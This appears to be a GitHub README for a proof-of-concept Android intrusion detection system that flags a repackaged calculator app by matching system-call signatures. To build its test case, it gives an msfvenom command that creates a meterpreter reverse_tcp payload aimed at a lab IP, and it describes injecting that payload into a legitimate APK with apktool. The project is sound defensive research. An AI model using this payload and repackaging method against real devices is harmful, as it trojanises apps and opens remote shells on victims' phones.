





# HIDS_Android: Host-Based Intrusion detection system for Android

## Implementation:

The	main	idea	behind	this	implementation	is	a	proof	of	concept	that	takes	two	same	applications,	
one	legit	and	the other repackaged with a malicious payload (msfvenom). Then,	apply	signature	detection,	based on	system	calls	to	match	certain	type	of	pattern.	
Eventually,	this	allows	to	detect	or	prevent	some	attack,	in	our	case,	the	execution	of	
meterpreter	commands	through	a	reverse_tcp	shell.	

## Defense environment:

This PoC	relies	on	three	hosts	all	connected	to	the	same	network	172.16.16.0/24:	

- Kali	linux	VM : Acts	as	a	remote	attack	machine,	which	the	reverse	tcp	shell,	
waiting	for	the	malicious	application	to	be	launched.
- Android	x86	VM (Kitkat	4.4):	Acts	as	the	victim	phone/tablet
- Centos	host:	acts	as	the	HIDS	and	connects	remotely	to	the	Androidx86	through	ADB	
(Android	 debug	 bridge)	 to	 launch	 both	 applications	 (legit	 and	 malicious)	 with	 Monkey	 while	
collecting	the	strace (Zigote)	results	to	be	parsed	and	compared	to	the	signatures.

## Repackaging the legit App:

To simulate the repackaging attack,	a new malicious version of the legit app (calculator.apk), has been created	
(com.simplemobiletools.calculator_malicious)	 embedding	 a	 meterpreter	 payload	 know	 as	
android/meterpreter/reverse	tcp.	
Creation of malicious.apk as	below: 

```msfvenom	-p	android/meterpreter/reverse_tcp	LHOST=172.16.16.5	LPORT=6130	-o	malicious.apk```

Decompiling of legit	 version	 com.simplemobiletools.calculator.apk	
along	 with	 the	 malicious.apk,	 to	 finally	 hook	 the	 malicious	 payload	 and	
create	com.simplemobiletools.calculator_malicious.apk	(Tool	used:	apktool). 

#### *Android Desktop with 2 apps*



## Running the program:

To test Meterpreter	payload	signature, the	server	will	wait	for	an	incoming	connection	to	form	the	reverse_tcp	shell,	and	allow	 the	 attacker	 to	 run	 remote	 command (take a screenshot for example)

#### *MSF reverse_shell*



- ### On the Legit App:
```hids_android.py com.simplemobiletools.calculator```

#### *Legit App detection*



- ### On the malicious App:
```hids_android.py com.simplemobiletools.calculator```

Will raise an alarm, without having the remote attacker server ready to handle the reverse shell

#### *Malicious App detection conn attempt*




Will now raise an alarm, and kill the application launched, since it detects a reverse shell signature (remote attacker server is ready this time)

#### *Malicious App detection conn detected*



### Future work:

Implement Machine Learning in a supervised way, to train and catch legit pattern.


